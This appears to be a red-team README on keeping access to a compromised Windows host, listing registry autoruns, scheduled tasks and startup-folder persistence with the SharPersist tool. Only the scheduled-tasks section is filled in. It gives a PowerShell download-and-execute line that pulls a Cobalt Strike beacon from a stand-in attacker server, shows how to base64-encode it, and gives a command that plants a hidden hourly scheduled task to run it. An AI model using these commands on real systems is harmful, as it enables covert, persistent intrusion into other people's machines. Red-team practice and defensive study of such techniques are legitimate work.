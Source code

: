 # Methods of regaining or maintaining access to a compromised host

Following methods can be used to regain access to a compromised host.

#### <b>1.</b> <a href="https://github.com/incredibleindishell/Red_Team_Op/new/main#1-registry-autoruns-1">Registry Autoruns</a>
#### <b>2.</b> <a href="https://github.com/incredibleindishell/Red_Team_Op/new/main#2-scheduled-tasks-1">Scheduled Tasks</a>
#### <b>3.</b> <a href="https://github.com/incredibleindishell/Red_Team_Op/new/main#3-startup-folder-1">Startup Folder</a>

To create the payloads for above mentioned scenarios, user can use SharPersist tool from below mentioned Github Repo:

https://github.com/mandiant/SharPersist

SharPersist allows a user to create payload for different backdooring techniques. 

It supports following options/arguments 

    -t: Persistence technique
    -c: Command to execute
    -a: Arguments of command to execute (if applicable)
    -f: File to create/modify
    -k: Registry key to create/modify
    -v: Registry value to create/modify
    -n: Scheduled task name OR Service name
    -m: Method(add, remove, check, list)
    -o: Optional add-ons
    -h: Help page


#### 1. Registry Autoruns
---


#### 2. Scheduled Tasks
---

In local machine, open PowerShell console and execute below mentioned commands to generate the base64 encoded text of the Cobalt strike's PowerShell based beacon payload:

    PS C:\> $str = 'IEX ((new-object net.webclient).downloadstring("http://cobalt_strike_server/poershell_payload"))'
    PS C:\> [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))

In Cobalt strike beacon console, execute below mentioned command (replace text Base_64_encoded_payload_goes_here with the output generated in the above step) to add a new scheduled task with name `b0x` which will execute after every one hour:
    
    execute-assembly C:\Path_to_sharpersist\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc Base_64_encoded_payload_goes_here" -n "b0x" -m add -o hourly


#### 3. Startup Folder
---

